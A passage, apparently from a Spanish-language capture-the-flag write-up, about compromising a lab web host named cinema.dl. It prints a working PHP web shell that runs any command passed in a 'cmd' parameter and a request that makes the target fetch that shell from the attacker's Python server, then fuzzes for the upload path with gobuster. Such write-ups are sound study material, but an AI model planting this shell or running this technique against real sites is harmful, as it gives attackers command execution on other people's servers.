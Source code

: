 ```bash
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```
y lo llamo shell.php,y lo alojo en la carpeta donde levanté el servido python hago la petición quedando así:
```
POST /reservation.php?problem_url=http%3A%2F%2F172.17.0.1%2Fshell.php HTTP/1.1
```
```
sudo python3 -m http.server 80                                                                                                                                                          
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
172.17.0.2 - - [21/Jan/2025 14:26:59] "GET /shell.php HTTP/1.1" 200 -
```
muy bien ya tengo la shell maliciosa en la web...pero no se donde se ha subido.

hago fuzzing con bastantes diccionarios y no encuentro dónde se ha subido así que pruebo a hacer un diccionario
personalizado:
primero intento con:
```bash
cewl http://cinema.dl/reserva.html -w password.txt
```
sin resultado, desquiciado pruebo con los nombres de los actores:
```
andrewgarfield
florencepugh
leonardodicaprio
scarlettjohansson
denzelwashington
natalieportman
robertdowneyjr
annehathaway
chrishemsworth
jenniferlawrence
tomhanks
emmastone
michaelbjordan
margotrobbie
christianbale
zoesaldana
ryanreynolds
merylstreep
hughjackman
gracedelaney
```
he dejado una lista corta y hago fuzzing de nuevo
```
gobuster dir  -u 'http://cinema.dl' -w actores   | tee rutas                                                                                                                       
```
